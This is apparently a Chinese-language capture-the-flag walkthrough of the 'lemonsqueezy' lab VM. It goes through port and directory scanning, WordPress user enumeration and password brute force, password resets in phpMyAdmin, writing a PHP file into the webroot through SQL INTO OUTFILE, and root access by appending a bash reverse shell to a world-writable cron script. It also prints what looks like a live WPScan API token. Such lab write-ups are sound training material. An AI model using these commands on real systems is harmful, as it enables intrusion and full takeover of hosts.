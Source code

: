 

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p80  192.168.10.22
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-08 07:26 EDT
Nmap scan report for 192.168.10.22
Host is up (0.00064s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 00:0C:29:E2:78:CF (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```

只有一个80端口

## web渗透

初始80端口就一个apche默认页面
先目录扫描一波
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ gobuster  dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.10.22/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.22/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.10.22/wordpress/]
/manual               (Status: 301) [Size: 315] [--> http://192.168.10.22/manual/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.10.22/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://192.168.10.22/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```


### wpscan

有wordpress直接开扫，先枚举两个用户
wpscan --url http://192.168.10.22/wordpress -e u --api-token tYtl343tIjp9AjUaIHnLdZHA3QaRestXTHc7aBI59Jw
![](images/2024-05-08-20-06-52.png)

爆破user密码
wpscan --url http://192.168.10.22/wordpress --passwords /usr/share/wordlists/rockyou.txt  --usernames lemon,orange
![](images/2024-05-08-20-08-04.png)
orange/ginger

### 后台信息收集
![](images/2024-05-08-20-13-16.png)
本来还想找找nday打后台
结果这里直接给了一个密码
n0t1n@w0rdl1st!
去登陆phpmyadmin

### phymyadmin sql修改密码
可以登录phpmyadmin
原凭证信息：
lemon
$P$ByDvlux0J/6CvT2nU20bxqp/5mDxc00
修改lemon的密码
![](images/2024-05-08-20-23-08.png)
lemon/123456
![](images/2024-05-08-20-23-29.png)
登录了lemon号后没什么可利用的
文件都不可写，没找到上传点说是

### sql写马

回到phpmyadmin
show global variables like '%secure%'
![](images/2024-05-08-20-56-12.png)
得到sql数据库`secure_file_priv`为空
对文件没有限制
那么就可以写马进去了
select '<?php phpinfo(); ?>' into outfile "/var/www/html/wordpress/test.php";
![](images/2024-05-08-21-04-50.png)
![](images/2024-05-08-21-04-39.png)

写一句话拿shell

## 提权

```bash
www-data@lemonsqueezy:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
#
www-data@lemonsqueezy:/$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
www-data@lemonsqueezy:/$ ls -la /etc/logrotate.d/logrotate
ls -la /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate
```
这里直接写入反弹shell就可以了
```bash
www-data@lemonsqueezy:/$ echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.12/2333 0>&1'" >>/etc/logrotate.d/logrotate
<.168.10.12/2333 0>&1'" >/etc/logrotate.d/logrotate
www-data@lemonsqueezy:/$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.12/2333 0>&1'
```

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ nc -lvnp 2333
listening on [any] 2333 ...
connect to [192.168.10.12] from (UNKNOWN) [192.168.10.22] 34348
bash: cannot set terminal process group (2421): Inappropriate ioctl for device
bash: no job control in this shell
root@lemonsqueezy:~# whoami
whoami
root
root@lemonsqueezy:~# ls /root
ls /root
root.txt
root@lemonsqueezy:~# cat /root/root.txt
cat /root/root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
```